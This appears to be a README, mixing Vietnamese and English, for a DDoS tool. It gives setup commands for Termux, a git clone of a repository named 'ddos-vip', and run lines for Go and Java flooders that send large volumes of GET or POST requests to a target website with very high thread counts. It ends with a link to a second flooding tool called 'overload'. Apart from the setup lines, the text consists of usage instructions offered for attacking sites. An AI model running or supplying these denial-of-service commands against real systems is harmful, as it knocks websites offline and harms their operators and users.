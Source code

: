 # Setup
pkg install golang

pkg install openjdk-17
# Lệnh Vào Tool
git clone https://github.com/User-xquyen/ddos-vip

cd toolddos-vippro
# Chế độ Get sài cho web https://
go run ddosbyXQ.go https://linkweb.com 5000 get 5000 nil
# Chế độ Post sài cho web http://
go run ddosbyXQ.go https://linkweb.com 5000 post 5000 header.txt
# Java DDoS siêu bá cân all web
java ddosbyXQ.java

Link web:

Thread: 170000

Method: 4000
# Overload
https://github.com/7zx/overload
